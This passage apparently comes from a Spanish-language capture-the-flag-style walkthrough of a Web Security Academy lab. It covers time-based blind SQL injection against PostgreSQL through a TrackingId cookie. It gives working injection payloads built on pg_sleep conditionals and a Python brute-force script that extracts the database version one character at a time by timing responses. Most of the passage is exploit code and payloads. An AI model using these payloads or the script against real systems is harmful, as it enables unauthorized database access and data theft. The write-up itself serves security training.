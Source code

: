 La `longitud` es de `134 caracteres`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(length(version())=134)+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD
```

Podemos usar este `payload` para `bruteforcear carácter a carácter` el `output` de la `query` al `completo`

```
Cookie: TrackingId=cHGMMcxehmRwG3jt'||case+when+(substr(version(),1,1)='P')+then+pg_sleep(2)+else+pg_sleep(0)+end--+-+; session=ezlYBe5u09pOXF3zAZ4zeRaLp96CZ2pD
```

Con este `script` de `python` vamos a `iterar` sobre el `payload anterior`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a8c0022048b993981c20d0000b3004b.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 135):
            for character in characters:
                cookies = {
                    'TrackingId': "C5PhDxyLUgYK5wqP'||case when (substr(version(),%d,1)='%s') then pg_sleep(2) else pg_sleep(0) end-- - " % (position, character),
                    'session': "BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD"
                }

                p1.status(cookies['TrackingId'][:150])

                time_start = time.time()

                r = requests.get(url, cookies=cookies)

                time_end = time.time()

                if time_end - time_start > 2:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break
```
